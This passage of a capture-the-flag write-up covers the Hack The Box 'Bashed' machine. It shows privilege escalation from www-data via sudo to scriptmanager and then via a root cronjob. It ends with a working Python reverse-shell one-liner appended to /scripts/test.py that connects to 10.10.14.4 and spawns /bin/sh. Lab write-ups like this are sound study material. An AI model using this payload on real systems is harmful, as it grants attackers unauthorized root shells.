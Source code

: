 ``` {.python .numberLines}
        inet addr:127.0.0.1  Mask:255.0.0.0
        inet6 addr: ::1/128 Scope:Host
        UP LOOPBACK RUNNING  MTU:65536  Metric:1
        RX packets:444689 errors:0 dropped:0 overruns:0 frame:0
        TX packets:444689 errors:0 dropped:0 overruns:0 carrier:0
        collisions:0 txqueuelen:1 
        RX bytes:32908196 (32.9 MB)  TX bytes:32908196 (32.9 MB)
www-data@bashed>  
www-data@bashed> users
root
arrexel
scriptmanager
```

\newpage
## Phase #3: Privilege Escalation
1\. We find that the user `www-data` can run any command as user `scriptmanager` using `sudo`:  
``` {.python .numberLines}
sudo -l
sudo -u scriptmanager /bin/bash

```

![writeup.privesc.steps.1.1](Box%20Write-ups/htb.bashed/screenshot07.png)  

![writeup.privesc.steps.1.2](Box%20Write-ups/htb.bashed/screenshot10.png)  

2\. We find an interesting directory `/scripts` which has two files in it. One is a Python script `test.py` owned by user `scriptmanager` and other is `test.txt` owned by `root`. We use a script `CronJobCheckser.sh` and find that there's a `root` owned cronjob that runs the `test.py` script and which creates the `test.txt` file.  
``` {.python .numberLines}
ls -la /scripts
cat /scripts/test.py

```

![writeup.privesc.steps.2.1](Box%20Write-ups/htb.bashed/screenshot08.png)  

![writeup.privesc.steps.2.2](Box%20Write-ups/htb.bashed/screenshot09.png)  

![writeup.privesc.steps.2.3](Box%20Write-ups/htb.bashed/screenshot11.png)  

3\. We can now edit this file to execute a reverse shell that gives us elevated privileges on the system:  
``` {.python .numberLines}
nc -nlvp 9999
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' >>/scripts/test.py

```

